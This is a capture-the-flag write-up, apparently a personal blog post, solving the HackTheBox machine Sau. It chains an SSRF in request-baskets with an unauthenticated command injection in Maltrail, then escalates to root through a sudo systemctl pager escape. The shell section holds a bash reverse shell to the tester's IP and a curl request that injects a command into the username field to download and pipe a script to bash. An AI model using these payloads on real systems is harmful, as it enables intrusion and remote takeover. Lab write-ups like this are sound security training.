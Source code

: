```yaml
---
layout: post
title: HackTheBox-Sau Walkthrough
date: 2023-12-29 08:00:00 -500
categories: [HackTheBox Walkthrough]
tags: [HackTheBox]
image: Sau.png
img_path: /assets/img/favicons/HackTheBox/Sau/
---
```


# Description :
Sau is an easy Hack The Box machine that features two vulnerabilities on its website—SSRF on the main site and OS Command Injection in a locally running website named Maltrail on port 80. The privilege escalation to root is straightforward, as the Puma user can execute a service with root privileges.



## Nmap :

Upon scanning the host's ports, we identified two open ports: 22 and 5555 : 

```bash
 /opt/nmapAutomator/nmapAutomator.sh -t All -H 10.10.11.224 

Running all scans on 10.10.11.224

Host is likely running Linux


---------------------Starting Port Scan-----------------------



PORT      STATE SERVICE
22/tcp    open  ssh
55555/tcp open  unknown



---------------------Starting Script Scan-----------------------



PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
55555/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Fri, 29 Dec 2023 13:52:51 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Fri, 29 Dec 2023 13:52:24 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Fri, 29 Dec 2023 13:52:24 GMT
|_    Content-Length: 0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


## TCP - PORT 5555

***About Request Baskets :Request Baskets is a web service to collect arbitrary HTTP requests and inspect them via RESTful API or simple web UI. It is strongly inspired by ideas and application design of the RequestHub project and reproduces functionality offered by RequestBin service.***

We can create a basket with name choice , in this case `emsec` :
![Alt text](web_basket_01.png)
![Alt text](web_basket_02.png)

![Alt text](web_basket_03.png)

Now, our basket is prepared and awaits incoming requests:

![Alt text](web_basket_04.png)

if we try to send requests to http://10.10.11.224:55555/emsec it will apear on `Request Baskets` :

![Alt text](web_basket_05.png)

also there is a parameters that we can modify :

![Alt text](web_basket_06.png)



## CVE-2023-27163 | SSRF:

By examining the website version

![Alt text](vulnerable_version.png)

I searched on Google for vulnerabilities in the `request-baskets  Version: 1.2.1` and discovered the associated steps on GitHub under[CVE-2023-27163 ](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3)

Having identified the SSRF on the website, by implementing this modification, we can exploit it.

![Alt text](web_basket_07.png)

revisiting the `/emsec` basket :
![Alt text](web_basket_08.png)

We successfully exploited the SSRF; it is now functioning as intended.


## OS Command Injection on Maltrail :


***what is Maltrail : [Maltrail](https://github.com/stamparm/maltrail/blob/master/README.md#introduction) is a malicious traffic detection system***

Upon inspecting the bottom, we can identify the version of Maltrail. After searching for its vulnerability on Google, we came across a post regarding [Unauthenticated OS Command Injection](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/).

Now, let's proceed. Firstly, change the `Forward URL:` to `http://127.0.0.1:80/login`:

![Alt text](web_basket_09.png)

After executing the injection, we received the callback, confirming the successful functioning of the OS command :

![Alt text](shell.png)

## Shell as puma:

create your reversesehll and strat the http.server: 

* reverse shell :
```bash
┌──(emsec㉿emsec-pc)-[~]
└─$ cat shell.sh 
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.14.81/4444 0>&1"

```
* payload :

```bash
curl -X POST 'http://10.10.11.224:55555/emsec' \
  --data 'username=;`curl http://10.10.14.81/shell.sh|bash`'
```

* Upgrading Shell to Fully Interactive TTYs :

```bash
export TERM=xterm
python3 -c "import pty;pty.spawn('/bin/bash')"

CTR+Z

stty -echo raw;fg

```

and then reading the user falg :

```bash
puma@sau:/opt/maltrail$ cd /home/puma/
puma@sau:~$ ls
user.txt
puma@sau:~$ cat user.txt 
d19b35b25e4df14c10326b***********
```

## Shell as root :


Upon inspecting the privileges of the current Puma user using `sudo -l`, we discovered the capability to execute `/usr/bin/systemctl status trail.service` with root permissions.

```bash
puma@sau:~$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```


It appears to be a straightforward privilege escalation. We can easily chack [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo)

![Alt text](gtfobins.png)



Get root by just running

`sudo /usr/bin/systemctl status trail.service` then `!sh`

![Alt text](root.png)


I hope you enjoyed my write-up. 

![](https://github.com/Mostafatoumi/mostafatoumi.github.io/blob/main/assets/img/favicons/HackTheBox/emsec_4.gif)

Happy hacking!

